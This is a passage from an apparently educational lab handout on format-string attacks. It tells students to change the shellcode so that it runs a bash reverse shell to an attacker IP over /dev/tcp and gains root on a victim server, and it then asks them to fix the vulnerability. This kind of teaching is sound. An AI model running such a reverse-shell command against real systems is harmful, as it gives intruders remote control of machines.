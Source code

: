You need to modify the shellcode listed in 
Listing~\ref{format:code:shellcode}, so instead of running 
the \texttt{/bin/rm} command using \texttt{bash}, your shellcode runs the 
following command. 
The example assumes that the attacker machine's IP address is \texttt{10.0.2.6}, so you need to
change the IP address in your code:   

\begin{lstlisting}[backgroundcolor=]
/bin/bash -c "/bin/bash -i > /dev/tcp/10.0.2.6/7070 0<&1 2>&1"
\end{lstlisting}

You only need to modify the code between Lines~ and~, so the above
\texttt{"/bin/bash -i ..."} command is executed by the shellcode, instead of the
\texttt{/bin/rm} command. Once you finish the shellcode, you should  construct your format
string, send it over to the victim server as an input. If your attack is successful, your TCP
server should get a callback, and you will get a root shell on the victim machine. Please
provide the evidence of success in your report (including screenshots).



\subsection{Task 8: Fixing the Problem}

Remember the warning message generated by the \texttt{gcc} compiler? Please explain what
it means. Please fix the vulnerability in the server program, and recompile it. 
Does the compiler warning go away? Do your attacks 
still work? You only need to try one of your attacks to see whether it still
works or not. 



\section{Submission}





